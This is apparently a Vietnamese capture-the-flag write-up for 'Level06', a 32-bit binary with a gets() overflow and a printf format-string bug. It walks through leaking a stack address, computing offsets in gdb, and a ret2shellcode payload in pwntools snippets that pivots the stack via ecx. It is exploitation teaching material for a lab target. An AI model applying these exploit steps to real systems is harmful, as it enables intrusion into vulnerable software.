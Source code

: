 # Level06

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
Level06: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a314b3262c5ee7cd03ebb4dbb5312fca101bf75f, not stripped
```
Đây là file 32-bit không bị ẩn tên hàm.

Kế đến, kiểm tra security của file:

```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

Vậy là toàn bộ chế độ bảo vệ, bao gồm cả NX (No eXecute)-là một tính năng bảo mật giúp ngăn việc thực thi mã từ các vùng bộ nhớ không thể thực thi

Tiếp đến ta sẽ sử dụng ida-pro-32bit

Ta có hàm `main()`:

![ida.png](images/ida.png)

# 2. Ý tưởng

Ở bài này mắc 2 lỗi đó là:

```
gets(s);
```
Lỗ hổng tràn bộ nhớ đệm do hàm `gets()` không kiểm soát số lượng ký tự đầu vào

Tiếp đến:

```
printf(s);
```

Gây ra lỗi `format string`

```
Lỗi format string là một lỗi bảo mật trong việc sử dụng các chuỗi định dạng trong ngôn ngữ lập trình, như C. Lỗi này xảy ra khi không kiểm soát đủ việc xử lý các chuỗi định dạng người dùng nhập vào hoặc lấy từ bên ngoài, dẫn đến việc tấn công bằng cách truyền các chuỗi định dạng độc hại
```

Do ở bài này không có các hàm lấy flag như những bài trước cũng không in sẵn ra địa chỉ của stack nên mình sẽ sử dụng lỗi `format string` để leak được địa chỉ stack và sử dụng tiếp hàm `gets()` để ghi đè `return_addr` bằng địa chỉ của shellcode

-> Sử dụng kỹ thuật `ret2shellcode`

# 3. Khai thác

Đầu tiên, do NX đã bị tắt, ta sẽ xem vùng nhớ nào có quyền thực thi bằng câu lệnh `vmmap` trong `gdb`

![gdb1.png](images/gdb1.png)

Vậy là vùng nhớ có quyền thực thi là stack mà biến `s` được lưu trên stack cộng thêm việc ta có thể sử dụng lỗi format string khi sử dụng 2 hàm đầu tiên

```
gets(s);
printf(s);
```

2 hàm này để leak ra địa chỉ stack để tính toán địa chỉ shellcode

Ta sẽ sử dụng `%x` để in ra màn hình các giá trị trên các địa chỉ của stack

![gdb2.png](images/gdb2.png)

Qua đây cho thấy địa chỉ stack leak được ra là ở vị trí thứ 4 trên stack

-> Mã khai thác để leak stack là:

```
payload = b"%4$x"                   #in ra giá trị tại vị trí thứ 4 trên stack
p.sendline(payload)
stack_leak = int(p.recv(8),16)      #lấy 8 bytes đầu tiên được in ra của chương trình rồi chuyển nó từ dạng hex sang dạng int và lưu vào biến stack_leak
print(hex(stack_leak))              #in ra địa chỉ stack ta vừa leak được
```

- Tìm địa chỉ của biến `s` và shellcode bằng gdb

Trong gdb. Sử dụng lệnh `search %4$x` để tìm chuỗi mình nhập vào ở địa chỉ nào 

![gdb3.png](images/gdb3.png)

Ở đây, địa chỉ leak ra là `0xffe04180` còn địa chỉ của biến `s` = `0xffe0414c`

-> Địa chỉ biến `s` = địa chỉ leak ra - `52`

Tính toán địa chỉ của shellcode

Do shellcode ta nhập vào ở ngay phía sau `return_addr` = `[ebp+4[]` mà biến `s` = [ebp-0xC]

-> Địa chỉ shellcode = địa chỉ biến `s` + 16

# Đoạn quan trọng:

Do không return được đúng địa chỉ shellcode, mình đã xem lại luồng thực thi bằng `gdb` để ý đến đoạn cuối

![me.png](images/me.png)

```
mov    ecx,DWORD PTR [ebp-0x4]
leave
lea    esp,[ecx-0x4]
ret
```

Ở đoạn mã này cho thấy, đầu tiên chương trình sẽ đưa giá trị tại địa chỉ `ebp-0x4` vào thanh ghi `ecx` 

Tiếp sau đó đưa giá trị tại `ecx-0x4` vào thanh ghi `esp`

Cuối cùng `return_addr` chính là địa chỉ của `esp` khi ấy

Tổng kết sẽ như sau: `[[ebp-0x4] - 0x4]` = `esp`

- Tính toán trên stack

Ta sẽ lưu 1 địa chỉ X vào `ebp-0x4`

Chương trình sẽ lấy giá trị tại (X - 4) làm return_addr 

Với

```
+ Địa chỉ biến `s` = địa chỉ leak ra - `52` 
+ Địa chỉ shellcode = địa chỉ biến `s` + 16
```

đã tính toán ở trên, ta có mã thực thi sau:

```
s = stack_leak - 52 
shellcode_addr = s + 16
payload = b"a"*4 + p32(shellcode_addr) + p32(s+8) + b"a"*4 + shellcode
```


Giải thích đoạn này:

Đầu tiên chương trình sẽ đưa giá trị tại địa chỉ `ebp-0x4` vào thanh ghi `ecx` mà `ebp-0x4` chính là tại vị trí `+ p32(s+8) +` và giá trị tại đây là `p32(s+8)` này sẽ được lưu vào thanh ghi `ecx`

Tiếp theo, giá trị `ecx-4` chính là vị trí tại `+ p32(shellcode_addr) +` mà giá trị tại đây chính là địa chỉ shellcode và lưu tại `esp`, sau đó chương trình sẽ ret vào địa chỉ này và nó chính là địa chỉ shellcode

Shellcode ở link: https://www.exploit-db.com/exploits/42428

![flag.png](images/flag.png)

